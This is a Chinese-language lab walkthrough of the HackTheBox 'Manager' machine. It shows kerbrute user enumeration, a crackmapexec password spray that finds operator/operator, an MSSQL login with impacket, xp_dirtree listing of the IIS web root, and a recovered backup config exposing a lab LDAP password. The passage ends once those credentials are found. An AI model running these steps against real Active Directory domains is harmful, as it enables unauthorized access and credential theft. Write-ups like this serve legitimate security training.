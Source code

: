 使用[kerbrute](https://github.com/ropnop/kerbrute)枚举ad域里的用户
得到user.txt
```
ryan
cheng
raven
guest
administrator
operator
jinwoo
zhong
chinhaw
```
使用crackmapexec进行密码喷射(password spraying)
`crackmapexec smb manager.htb -u users -p users`
得到一个smb登录凭证`operator/operator`
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240307221329.png)

没有共享,尝试mssql
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240307221710.png)

尝试mssql登录
`impacket-mssqlclient -port 1433 manager.htb/operator:operator@10.10.11.236 -window `

执行`xp_dirtree 'C:\inetpub\wwwroot', 1, 1;`读取iis web目录下的文件

发现了
```text                                                                                          
website-backup-27-07-23-old.zip    
```
下载并发现了一个old.config.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>

```
得到raven的账号密码

